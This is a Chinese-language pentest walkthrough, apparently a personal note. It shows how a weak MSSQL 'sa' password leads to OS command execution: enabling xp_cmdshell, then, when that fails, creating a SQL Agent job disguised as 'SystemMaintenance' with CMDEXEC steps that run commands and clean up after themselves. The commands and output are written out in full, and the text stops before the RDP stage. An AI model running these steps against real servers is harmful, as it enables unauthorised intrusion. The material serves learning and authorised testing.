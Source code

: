 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date: 2025-10-16
title: 从mssql到rdp远程桌面连接
category:
  - 项目
---
```

`fscan`扫描，爆出`mssql`弱密码`san:1`
使用sqsh连接mssql
```bash
sqsh -S 10.99.xx.xx -U sa -P 1
```
## 首次`xp_cmdshell`RCE尝试
为了执行命令，首先查看最短最方便的路径`xp_cmdshell`命令执行
启动`xp_cmdshell`
```bash
1> EXEC sp_configure 'show advanced options', 1; 
2> RECONFIGURE; 
3> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. (return status = 0)
```
查询`xp_cmdshell`是否启用
```bash
1>EXEC sp_configure 'xp_cmdshell';
2>go

name
        ----------------------------------------------------------------------------------------------------------------
        xp_cmdshell

        minimum     maximum     config_value run_value
        ----------- ----------- ------------ -----------
                  0           1            1           1
```
显示已经启用
但是在命令执行时却出现问题
```bash
1> EXEC xp_cmdshell 'whoami'; 
2> go 
Msg 15121, Level 16, State 21 Server 'ZHANGWEI', Procedure 'xp_cmdshell', Line 1
An error occurred during the execution of xp_cmdshell. A call to 'CreateProcess' failed with error code: '5'. (return status = 15121)
```
错误代码5，这表示“访问被拒绝”。这通常是由于SQL Server服务账户没有足够的权限来执行命令。
尝试使用方案二进行命令执行
## SQL Agent 作业RCE
首先查询`SQL Agent`是否启动
```bash
1> DECLARE @agent_status INT; 
EXEC master.dbo.xp_regread 
'HKEY_LOCAL_MACHINE', 
'SYSTEM\CurrentControlSet\Services\SQLSERVERAGENT',
'Start',
@agent_status OUTPUT;
SELECT 
	CASE @agent_status 
		WHEN 2 THEN 'Auto Start' 
		WHEN 3 THEN 'Manual Start' 
		WHEN 4 THEN 'Disabled' 
		ELSE 'Unknown' 
	END AS AgentStatus; 
2> go 
(return status = 0) 

AgentStatus 
------------------------------------------------ 
Auto Start (1 row affected)
```
查询到`agent`状态为自启动，意味指`agent`现在处于启动状态
### 准备步骤
```bash
1> USE msdb; 
2> go 
1> EXEC dbo.sp_add_job 
	@job_name = 'SystemMaintenance', 
	@enabled = 1, 
	@description = 'System maintenance tasks'; 
2> go 
(return status = 0)
```
切换上下文到msdb系统数据库
执行系统存储过程 `sp_add_job`，并设置相应参数以及描述
***总结***：
这段代码在 `msdb`数据库中创建了一个名为 ​**​`SystemMaintenance`​**​ 的 SQL Server 代理作业，该作业处于启用状态，并添加了描述信息。后续需要进一步配置作业步骤（如备份数据库、重建索引等）和调度计划，才能使作业实际运行。

### 添加作业步骤
步骤一：
```sql
EXEC dbo.sp_add_jobstep
    @job_name = 'SystemMaintenance',
    @step_name = 'RunWhoami',
    @subsystem = 'CMDEXEC',
    @command = 'whoami > C:\Windows\Temp\output.txt',
    @retry_attempts = 1,
    @retry_interval = 5;
go
(return status = 0)
```
​**​参数​**​：
- `@subsystem = 'CMDEXEC'`：执行操作系统命令
- `@command = 'whoami'`：显示当前用户身份
- `@retry_attempts = 1`：失败时重试1次
- `@retry_interval = 5`：重试间隔5分钟

（TSQL步骤）步骤二：
```sql
EXEC dbo.sp_add_jobstep
    @job_name = 'SystemMaintenance',
    @step_name = 'CaptureOutput',
    @subsystem = 'TSQL',
    @command = 'DECLARE @output VARCHAR(MAX);
               SET @output = (SELECT output FROM OPENROWSET(BULK N''C:\Windows\Temp\output.txt'', SINGLE_CLOB) AS Contents);
               EXEC msdb.dbo.sp_update_job @job_name = ''SystemMaintenance'', @description = @output;',
    @database_name = 'msdb',
    @on_success_action = 3;
go
(return status = 0)
```
- **作用​**​：
    1. 读取第一步生成的 `C:\Windows\Temp\output.txt`文件
    2. 将文件内容更新到作业描述中
- ​**​关键参数​**​：
    - `@on_success_action = 3`：成功后转到下一步骤

步骤三：
```sql
EXEC dbo.sp_add_jobstep
    @job_name = 'SystemMaintenance',
    @step_name = 'Cleanup',
    @subsystem = 'CMDEXEC',
    @command = 'del C:\Windows\Temp\output.txt',
    @on_success_action = 1;
go
(return status = 0)
```
- **功能​**​：添加清理步骤
- ​**​作用​**​：删除第一步生成的临时文件
- ​**​参数​**​：
    - `@on_success_action = 1`：成功后退出报告成功

以上就是设置`agent`的主要命令，接下来是一些必要命令:
绑定作业到服务器：
```sql
EXEC dbo.sp_add_jobserver
    @job_name = 'SystemMaintenance',
    @server_name = N'(local)';
go
(return status = 0)
```
- **功能​**​：将作业附加到本地服务器实例
- ​**​必需步骤​**​：否则作业无法运行

启动作业：
```sql
EXEC dbo.sp_start_job 'SystemMaintenance';
go
Job 'SystemMaintenance' started successfully.
(return status = 0)
```
- ​**​功能​**​：立即启动作业
- ​**​输出​**​：成功启动确认

检查作业状态
